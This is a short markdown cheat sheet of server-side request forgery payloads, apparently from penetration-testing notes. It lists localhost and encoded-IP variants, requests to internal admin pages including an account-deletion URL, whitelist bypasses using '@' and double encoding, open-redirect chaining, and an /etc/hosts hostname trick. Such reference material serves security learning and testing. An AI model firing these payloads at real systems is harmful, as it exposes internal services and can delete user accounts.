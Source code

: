 ```yaml
---
title: Server-Side Request Forgery (SSRF)
desc: 
tags: [SSRF, Web]
alts: []
render_with_liquid: false
---
```


## Basic Methodology

1. **Localhost**

    ```html
    POST /stock HTTP/1.1
    ...

    stockApi=http://localhost/
    ```

    The followings are alternatives for localhost.

    ```
    stockApi=http://127.0.0.1/
    stockApi=http://2130706433/
    stockApi=http://017700000001/
    stockApi=http://127.1/
    ```

    - **Operation as Administrator**

        ```
        stockApi=http://localhost/admin
        stockApi=http://localhost/admin/delete?username=john

        stockApi=http://127.1/%25%36%31dmin
        ```

2. **Backund URL (192.168.0.X)**

    ```
    stockApi=http://192.168.0.23/admin
    stockApi=http://192.168.0.68:8080/admin/delete?username=michael
    ```

3. **Bypass Whitelisted URL**

    ```
    stockApi=http://localhost@vulnerable.com/
    stockApi=http://localhost%25%32%33@vulnerable.com/
    ```

4. **Open Redirect**

    ```
    stockApi=/post/next?path=http://localhost/admin
    ```

5. **Bypass Hostname**

    1. **Add Target Domain to /etc/hosts in Local Machine**

        ```sh
        <target-ip> sub.vulnerable.com
        ```

        Restart hostnamed

        ```sh
        sudo systemctl restart systemd-hostnamed
        ```

    2. **Access to the Domain You Specified**

        ```
        https://vulnerable.com/?proxy=https://sub.vulnerable.com
        ```


